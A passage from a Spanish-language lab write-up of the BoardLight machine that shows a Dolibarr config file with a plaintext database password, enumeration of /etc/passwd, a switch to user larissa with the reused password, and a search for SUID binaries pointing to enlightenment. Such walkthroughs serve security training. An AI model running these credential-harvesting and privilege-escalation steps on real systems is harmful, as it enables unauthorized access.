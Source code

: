 ```
//
$dolibarr_main_url_root='http://crm.board.htb';
$dolibarr_main_document_root='/var/www/html/crm.board.htb/htdocs';
$dolibarr_main_url_root_alt='/custom';
$dolibarr_main_document_root_alt='/var/www/html/crm.board.htb/htdocs/custom';
$dolibarr_main_data_root='/var/www/html/crm.board.htb/documents';
$dolibarr_main_db_host='localhost';
$dolibarr_main_db_port='3306';
$dolibarr_main_db_name='dolibarr';
$dolibarr_main_db_prefix='llx_';
$dolibarr_main_db_user='dolibarrowner';
$dolibarr_main_db_pass='serverfun2$2023!!';
```

Listamos los `usuarios` del `sistema` con `directorio home`

```
www-data@boardlight:~/html/crm.board.htb/htdocs/conf$ cat /etc/passwd | grep sh
root:x:0:0:root:/root:/bin/bash
larissa:x:1000:1000:larissa,,,:/home/larissa:/bin/bash
fwupd-refresh:x:128:135:fwupd-refresh user,,,:/run/systemd:/usr/sbin/nologin
sshd:x:129:65534::/run/sshd:/usr/sbin/nologin
```

Nos convertimos en el `usuario larissa`

```
www-data@boardlight:~/html/crm.board.htb/htdocs/conf$ su larissa
Password: 
larissa@boardlight:/var/www/html/crm.board.htb/htdocs/conf$ whoami
larissa
```

Listamos `privilegios SUID` y me llama la atención el `binario enlightenment`

```
larissa@boardlight:/home$ find / -perm -4000 2>/dev/null
/usr/lib/eject/dmcrypt-get-device
/usr/lib/xorg/Xorg.wrap
/usr/lib/x86_64-linux-gnu/enlightenment/utils/enlightenment_sys
/usr/lib/x86_64-linux-gnu/enlightenment/utils/enlightenment_ckpasswd
/usr/lib/x86_64-linux-gnu/enlightenment/utils/enlightenment_backlight
/usr/lib/x86_64-linux-gnu/enlightenment/modules/cpufreq/linux-gnu-x86_64-0.23.1/freqset
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
/usr/sbin/pppd
/usr/bin/newgrp
/usr/bin/mount
/usr/bin/sudo
/usr/bin/su
/usr/bin/chfn
/usr/bin/umount
/usr/bin/gpasswd
/usr/bin/passwd
/usr/bin/fusermount
/usr/bin/chsh
/usr/bin/vmware-user-suid-wrapper
```
